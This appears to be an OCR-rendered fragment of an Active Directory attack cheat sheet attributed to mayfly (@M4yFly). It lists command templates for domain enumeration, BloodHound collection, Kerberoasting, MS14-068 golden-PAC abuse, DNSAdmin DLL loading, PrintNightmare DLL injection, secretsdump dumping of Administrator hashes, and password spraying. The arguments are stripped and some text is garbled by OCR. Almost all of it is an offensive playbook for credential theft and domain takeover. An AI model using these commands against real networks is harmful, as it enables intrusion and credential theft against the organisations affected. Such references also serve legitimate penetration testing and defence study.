 secretsdump.py /\$@ -no-pass -just-dc-user “Administrator”
secretsdump.py -hashes : /Administrator@

    python3 restorepassword.py -target-ip /@ -hexpass

mayfly (@M4yFly)
Got one account on the domain
Get all users

    GetADUsers.py -all -dc-ip /

enumerate SMB share

    cme smb -u -p –shares

bloodhound

    bloodhound-python -d -u -p -gc -c all

powerview / pywerview
kerberoasting

    Get hash
        GetUserSPNs.py -request -dc-ip /:
        Rubeus kerberoast
    Get kerberoastable users
        Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
        MATCH (u:User {hasspn:true}) RETURN u
        MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

MS14-068

    FindSMB2UPTime.py
        rpcclient $> lookupnames
        wmic useraccount get name,sid
        auxiliary/admin/kerberos/ms14_068_kerberos_checksum
        goldenPac.py -dc-ip /:”@
            kerberos::ptc “”

dnscmd.exe /config /serverlevelplugindll <\path\to\dll> # need a dnsadmin user

    sc \DNSServer stop dns
    sc \DNSServer start dns

PrintNightmare

    CVE-2021-1675.py /:@ ‘\\\inject.dll’

enum dns

    dnstool.py -u ‘DOMAIN\user’ -p ‘password’ –record ‘*’ –action query

Got valid username
Password spray

    Get password policy
        crackmapexec -u ‘user’ -p ‘password’ –pass-pol
        enum4linx -u ‘username’ -p ‘password’ -P
    cme smb -u user.txt -p password.txt –no-bruteforce # test user=password
    cme smb -u user.txt -p password.txt # multiple test (carrefull of lock policy)
